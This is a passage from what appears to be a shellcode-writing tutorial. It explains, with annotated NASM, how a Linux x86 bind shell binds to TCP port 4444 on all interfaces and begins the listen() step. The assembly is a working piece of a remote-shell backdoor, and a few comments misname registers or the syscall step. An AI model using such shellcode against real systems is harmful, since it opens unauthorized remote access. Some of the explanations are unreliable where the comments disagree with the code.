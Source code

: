 + `ARG[0] = AF_INET = 0x2`
  - We know this value from the last SYSCAL we did.  
+ `ARG[1] = htons(4444) =  0x5c11`
  - All this means is `4444` in reverse, in Hex (`0x115C`).
  - Everything pushed onto the Stack needs to be in reverse.  
+ `ARG[2] = INADDR_ANY = 0x00000000`
  - All Network Interfaces
  - Find value for `INADDR_ANY`: 
```console
 cat /usr/src/linux-headers-$(uname -r)/include/uapi/linux/in.h | grep INADDR_ANY  
   #define INADDR_ANY ((unsigned long int) 0x00000000)
```
 
 The order to push all this on the stack will be:   
1. `ARG[2]`  
2. `ARG[1]`  
3. `ARG[0]`  
4. `ECX[2]`  
5. `ECX[1]`  
6. `ECX[0]`  

```nasm
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x2       ; EBX is set to create a socket
xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
xor ecx, ecx      ; This sets the EAX Register to NULL (all zeros).
mov ecx, esp      ; Save the memory location of ARG[0] into the EDX Register.
                  ;   We will use this for ECX[1].
push 0x10         ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
push ecx          ; ECX[1]. The pointer to the beginning of the struct we saved is 
                  ;  now loaded up for ECX[1].
push esi          ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp      ; Now all that is left is to point ECX to the top of the loaded stack.
int 0x80          ; System Call Interrupt 0x80 
```

### 4. Listen for incoming connections on the TCP-IP Socket
#### C Function
```c
int listen(int sockfd, int backlog);    
```
#### Our C Function
```c
<socketcall>   listen( ipv4Socket, 0 );
  EAX=0x66      EBX      ECX[0]   ECX[1]
```  
+ `EAX    = 102 = 0x66`
  - This is the value to call the SYSCAL `socketcall`.   
+ `EBX    = 4   = 0x4`
  - Value for `listen()` function relative to the SYSCAL `socketcall`.  
```c
#define SYS_LISTEN  4 // sys_listen(2)
```
+ `ECX[0] = int sockfd = ESI`
  - The Socket we created earlier and stored in the `ESI` register.  
+ `ECX[1] = 0x0`
  - We have no need for a `backlog` so this value will be `0`.  


[1]: 1
[1]: 1